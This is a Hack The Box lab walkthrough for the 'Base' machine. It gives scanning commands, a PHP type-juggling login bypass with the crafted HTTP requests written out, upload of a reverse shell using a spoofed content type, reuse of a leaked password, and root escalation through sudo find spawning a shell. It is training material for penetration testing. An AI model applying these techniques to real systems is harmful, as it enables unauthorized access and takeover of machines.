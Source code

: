 ```yaml
---
title: Base, a Hack the Box machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Base - A Hack The Box machine

Enumerate open ports and services.

```bash
nmap -sC -sV $ip -Pn
```

Ports 22 and 80 are open.

Add base.htb to /etc/hosts.

Enumerate directories:

```bash
gobuster dir -u http://base.htb/login -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
```

Some file and folders uncovered:

```
- http://base.htb/_uploaded/
- http://base.htb/login/
- http://base.htb/login/login.php
- http://base.htb/forms/
- http://base.htb/assets/
- http://base.htb/logout.php
```

Under  /login there are three files: login.php, config.php and login.php.swp. There are two ways of reading the swap file, with strings and with vim:


```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```


Quoting from the article [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09): "When comparing values, always try to use the type-safe comparison operator “===” instead of the loose comparison operator “==”. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. This means that (7 === “7”) will return False."

My notes about [php type jugling](php-type-juggling-vulnerabilities.md). 



In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents.

After sending request with BurpSuite, grab the PHPsession cookie and in your browser enter that cookie and go to: http://base.htb/upload.php. Now you can upload our [pentesmonkey shell](pentesmonkey.md) using BurpSuite Repeater (important note: change header to "Content-Type: image/png", file extension may remain php). Have your netcat listener ready.


```bash
whoami
```

```
www-data
```

Credentials can be found at /var/www/html/login/config.php. Use them to login as the existing user at /home

```bash
su john
# enter password: thisisagoodpassword
```

Once you are john, you have access to user.txt. Also, to be root:

```bash
id
sudo -l
```

```
ohn@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```


See [cheat sheet about suid binaries](suid-binaries.md) and:

```bash
sudo find . -exec /bin/sh \; -quit
```

Now you are root and can echo /root/root.txt
